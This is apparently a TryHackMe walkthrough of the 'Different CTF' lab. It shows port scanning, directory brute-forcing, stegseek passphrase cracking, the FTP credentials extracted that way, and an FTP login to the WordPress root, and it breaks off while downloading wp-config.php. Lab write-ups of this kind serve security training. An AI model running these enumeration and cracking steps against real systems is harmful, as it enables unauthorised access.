







<div align="center">


</div>

---

# Different CTF — TryHackMe Walkthrough

**Room:** Different CTF  
**Platform:** TryHackMe  
**Difficulty:** Hard  
**Target IP:** `10.128.162.225`  
**Hostnames:** `adana.thm`, `subdomain.adana.thm`  
**Focus Areas:** Web Enumeration, Virtual Host Routing, Steganography (StegSeek), Insecure File Permissions, Custom Wordlist Mutation (`sed`), Local Password Cracking (`sucrack`), SUID Reverse Engineering (`ltrace`), CyberChef Decoding (Base85)  

---

## Table of Contents

- [Target Assessment & Attack Path Overview](#target-assessment--attack-path-overview)
- [1. Reconnaissance & Port Scanning](#1-reconnaissance--port-scanning)
- [2. Web Enumeration & Virtual Host Discovery](#2-web-enumeration--virtual-host-discovery)
- [3. Steganography & Credential Extraction](#3-steganography--credential-extraction)
- [4. FTP Enumeration & phpMyAdmin Access](#4-ftp-enumeration--phpmyadmin-access)
- [5. Initial Foothold (Reverse Shell via FTP Overwrite)](#5-initial-foothold-reverse-shell-via-ftp-overwrite)
- [6. Lateral Movement to `hakanbey` (sucrack & Wordlist Mutation)](#6-lateral-movement-to-hakanbey-sucrack--wordlist-mutation)
- [7. Privilege Escalation to `root` (SUID Reversing & CyberChef)](#7-privilege-escalation-to-root-suid-reversing--cyberchef)
- [8. Flag Summary](#8-flag-summary)

---

## Target Assessment & Attack Path Overview

Different CTF is a great machine that feels less like a generic box and more like a puzzle chain where each step gives you a subtle clue for the next. The overall attack path breaks down into these distinct stages:

```
[Port 80 / 21 Open]
        │
        ├──> Discover VHost: adana.thm
        │
        ├──> Fuzz /announcements/ ──> Download Image & wordlist.txt
        │                                      │
        │                                [StegSeek Crack]
        │                                      │
        │                             FTP Creds: hakanftp
        │                                      │
        ▼                                      ▼
[Log in via FTP] ──> Read wp-config.php ──> phpMyAdmin Creds
                                                   │
                                            [phpMyAdmin Query]
                                                   │
                                      Discovered: subdomain.adana.thm
                                                   │
                                            [FTP Overwrite]
                                      Inject Shell into index.php
                                                   │
                                                   ▼
                                         Shell as www-data
                                                   │
                                           [Find User hakanbey]
                                       Pattern Notice: "123adana..."
                                                   │
                                          [sed Wordlist Mutation]
                                                   │
                                            [Compile sucrack]
                                                   │
                                                   ▼
                                         Lateral Move: hakanbey
                                                   │
                                          [SUID: /usr/bin/binary]
                                                   │
                                             [ltrace Analysis]
                                        Input: "warzoneinadana"
                                                   │
                                          Extract root.jpg Hint
                                                   │
                                         [CyberChef: Hex to Base85]
                                                   │
                                                   ▼
                                               Root Shell
```

---

## 1. Reconnaissance & Port Scanning

I kicked things off with `rustscan` piped into `nmap` to quickly scan all ports and run default service detection scripts.

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ rustscan -a 10.128.162.225 --ulimit 5000 -- -sV -sC -sS -A -O
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Scanning ports: The virtual equivalent of knocking on doors.

[~] The config file is expected to be at "/home/alphax/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.128.162.225:21
Open 10.128.162.225:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sV -sC -sS -A -O" on ip 10.128.162.225
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-30 10:49 +0530
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:49
Completed NSE at 10:49, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:49
Completed NSE at 10:49, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:49
Completed NSE at 10:49, 0.00s elapsed
Initiating Ping Scan at 10:49
Scanning 10.128.162.225 [4 ports]
Completed Ping Scan at 10:49, 0.20s elapsed (1 total hosts)
mass_dns: Using DNS server 8.8.8.8
mass_dns: Using DNS server 8.8.4.4
mass_dns: Using DNS server 2409:40c1:6009:61af:ee91:61ff:fe0e:861e
Initiating Parallel DNS resolution of 1 host. at 10:49
mass_dns: 0.00s 1/1 [#: 3, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, SY: 0]
Completed Parallel DNS resolution of 1 host. at 10:49, 0.50s elapsed
Initiating SYN Stealth Scan at 10:49
Scanning 10.128.162.225 [2 ports]
Discovered open port 80/tcp on 10.128.162.225
Discovered open port 21/tcp on 10.128.162.225
Completed SYN Stealth Scan at 10:49, 0.20s elapsed (2 total ports)
Initiating Service scan at 10:49
Scanning 2 services on 10.128.162.225
Completed Service scan at 10:49, 10.08s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.128.162.225
Retrying OS detection (try #2) against 10.128.162.225
Initiating Traceroute at 10:49
Completed Traceroute at 10:49, 3.01s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 10:49
mass_dns: 0.00s 2/2 [#: 3, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, SY: 0]
Completed Parallel DNS resolution of 2 hosts. at 10:49, 0.50s elapsed
NSE: Script scanning 10.128.162.225.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:49
Completed NSE at 10:49, 4.06s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:49
Completed NSE at 10:49, 2.51s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:49
Completed NSE at 10:49, 0.00s elapsed
Nmap scan report for 10.128.162.225
Host is up, received echo-reply ttl 62 (0.18s latency).
Scanned at 2026-10-30 10:49:09 IST for 25s

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.3
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Hello World &#8211; Just another WordPress site
|_http-generator: WordPress 5.6
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/o:linux:linux_kernel:5.4
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.991%E=4%D=10/30%OT=21%CT=%CU=38102%PV=Y%DS=3%DC=T%G=N%TM=6AE428E6%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)
SEQ(SP=104%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)
OPS(O1=M4E8ST11NW7%O2=M4E8ST11NW7%O3=M4E8NNT11NW7%O4=M4E8ST11NW7%O5=M4E8ST11NW7%O6=M4E8ST11)
WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
ECN(R=Y%DF=Y%T=40%W=F507%O=M4E8NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=N)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 5.244 days (since Sun Oct 25 04:57:39 2026)
Network Distance: 3 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Unix

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   175.96 ms 192.168.128.1
2   ...
3   176.62 ms 10.128.162.225

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:49
Completed NSE at 10:49, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:49
Completed NSE at 10:49, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:49
Completed NSE at 10:49, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.94 seconds
           Raw packets sent: 68 (5.302KB) | Rcvd: 48 (6.727KB)
```

The scan returned only two ports:
- **Port 21:** vsftpd 3.0.3 (Standard FTP)
- **Port 80:** Apache 2.4.29 running on Ubuntu, hosting a WordPress 5.6 site.

---

## 2. Web Enumeration & Virtual Host Discovery

Before jumping in, I grabbed the response headers from port 80 using `curl` to see if there were any redirects or internal domain names referenced:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ curl -I http://10.128.162.225/         
HTTP/1.1 200 OK
Date: Fri, 30 Oct 2026 05:21:40 GMT
Server: Apache/2.4.29 (Ubuntu)
Link: <http://adana.thm/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```

The `Link` header disclosed the hostname `adana.thm`. I immediately mapped this in my `/etc/hosts`:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ echo "10.128.162.225 adana.thm" | sudo tee -a /etc/hosts

10.128.162.225 adana.thm
```

Visiting the site confirms our host mapping:


I ran `whatweb` against the domain to verify the technologies running behind it:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ whatweb http://adana.thm/                                                      
http://adana.thm/ [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.128.162.225], MetaGenerator[WordPress 5.6], PoweredBy[WordPress], Script, Title[Hello World &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[5.6]
```

Checking `searchsploit` for known exploits against Apache 2.4.29:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ searchsploit apache 2.4.29
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execu | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + S | php/remote/29316.py
Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate'  | linux/local/46676.php
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service         | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buff | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buff | unix/remote/764.c
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory T | linux/webapps/39642.txt
Apache Tomcat < 5.5.17 - Remote Directory Listing           | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal         | unix/remote/14489.c
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)   | multiple/remote/6229.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0. | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0. | windows/webapps/42953.txt
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC | linux/dos/36906.txt
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion /  | linux/remote/34.pl
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Nothing directly exploitable here without credentials, so I ran a directory brute-force with `gobuster`:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ gobuster dir -u "http://adana.thm/" -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100 -q
wp-content           (Status: 301) [Size: 311] [--> http://adana.thm/wp-content/]
announcements        (Status: 301) [Size: 314] [--> http://adana.thm/announcements/]
wp-includes          (Status: 301) [Size: 312] [--> http://adana.thm/wp-includes/]
javascript           (Status: 301) [Size: 311] [--> http://adana.thm/javascript/]
wp-admin             (Status: 301) [Size: 309] [--> http://adana.thm/wp-admin/]
phpmyadmin           (Status: 301) [Size: 311] [--> http://adana.thm/phpmyadmin/]
server-status        (Status: 403) [Size: 274]
```

We found three interesting paths:
- `/phpmyadmin`
- `/wp-admin`
- `/announcements`

Checking `/phpmyadmin` and `/wp-admin`:





Both required credentials that we didn't have yet. Next, I checked `/announcements/`:



Directory listing was enabled, exposing two interesting files:
- `austrailian-bulldog-ant.jpg`
- `wordlist.txt`

---

## 3. Steganography & Credential Extraction

I downloaded both files from `/announcements/`:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ wget http://adana.thm/announcements/wordlist.txt                               
--2026-10-30 11:18:54--  http://adana.thm/announcements/wordlist.txt
Resolving adana.thm (adana.thm)... 10.128.162.225
Connecting to adana.thm (adana.thm)|10.128.162.225|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 403891 (394K) [text/plain]
Saving to: ‘wordlist.txt’

wordlist.txt            100%[=============================>] 394.42K  60.9KB/s    in 6.6s    

2026-10-30 11:19:01 (59.9 KB/s) - ‘wordlist.txt’ saved [403891/403891]

┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ wc -l wordlist.txt 
50000 wordlist.txt

┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ wget http://adana.thm/announcements/austrailian-bulldog-ant.jpg
--2026-10-30 11:52:15--  http://adana.thm/announcements/austrailian-bulldog-ant.jpg
Resolving adana.thm (adana.thm)... 10.128.162.225
Connecting to adana.thm (adana.thm)|10.128.162.225|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 59010 (58K) [image/jpeg]
Saving to: ‘austrailian-bulldog-ant.jpg’

austrailian-bulldog-ant 100%[=============================>]  57.63K  15.3KB/s    in 3.8s    

2026-10-30 11:52:20 (15.3 KB/s) - ‘austrailian-bulldog-ant.jpg’ saved [59010/59010]
```

A 50,000-line custom wordlist sitting right next to a JPEG file is a classic CTF hint for steganography. Trying `steghide` with an empty passphrase failed:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ steghide extract -sf austrailian-bulldog-ant.jpg 
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```

I used `stegseek` to crack the passphrase against the provided `wordlist.txt`:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ stegseek austrailian-bulldog-ant.jpg wordlist.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "123adanaantinwar"
[i] Original filename: "user-pass-ftp.txt".
[i] Extracting to "austrailian-bulldog-ant.jpg.out".
```

The passphrase was `123adanaantinwar`. Checking the extracted output:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ cat austrailian-bulldog-ant.jpg.out | base64 -d
FTP-LOGIN
USER: hakanftp
PASS: 123adanacrack 
```

We now have valid FTP credentials:
- **Username:** `hakanftp`
- **Password:** `123adanacrack`

Notice the naming pattern here: both the stego passphrase (`123adanaantinwar`) and the FTP password (`123adanacrack`) share the prefix **`123adana`**. Keep note of this for later.

---

## 4. FTP Enumeration & phpMyAdmin Access

I logged into FTP using `hakanftp`:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Different CTF]
└─$ ftp 10.128.162.225
Connected to 10.128.162.225.
220 (vsFTPd 3.0.3)
Name (10.128.162.225:alphax): hakanftp
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Running `ls` reveals that we are dropped right into the WordPress document root. Looking at the files, `wp-config.php` was readable, so I pulled it down:

```text
ftp> ls
229 Entering Extended Passive Mode (|||54345|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 14  2021 announcements
-rw-r--r--    1 1001     1001          405 Feb 06  2020 index.php
-rw-r--r--    1 1001     1001        19915 Feb 12  2020 license.txt
-rw-r--r--    1 1001     1001         7278 Jun 26  2020 readme.html
-rw-r--r--    1 1001     1001         7101 Jul 28  2020 wp-activate.php
drwxr-xr-x    9 1001     1001         4096 Dec 08  2020 wp-admin
-rw-r--r--    1 1001     1001          351 Feb 06  2020 wp-blog-header.php
-rw-r--r--    1 1001     1001         2328 Oct 08  2020 wp-comments-post.php
-rw-r--r--    1 0        0            3194 Jan 11  2021 wp-config.php
drwxr-xr-x    4 1001     1001         4096 Dec 08  2020 wp-content
-rw-r--r--    1 1001     1001         3939 Jul 30  2020 wp-cron.php
drwxr-xr-x   25 1001     1001        12288 Dec 08  2020 wp-includes
-rw-r--r--    1 1001     1001         2496 Feb 06  2020 wp-links-opml.php
-rw-r--r--    1 1001     1001         3300 Feb 06  2020 wp-load.php
-rw-r--r--    1 1001     1001        49831 Nov 09  2020 wp-login.php
-rw-r--r--    1 1001     1001         8509 Apr 14  2020 wp-mail.php
-rw-r--r--    1 1001     1001        20975 Nov 12  2020 wp-settings.php
-rw-r--r--    1 1001     1001        31337 Sep 30  2020 wp-signup.php
-rw-r--r--    1 1001     1001         4747 Oct 08  2020 wp-trackback.php
-rw-r--r--    1 1001     1001         3236 Jun 08  2020 xmlrpc.php
226 Directory send OK.
ftp> get wp-config.php
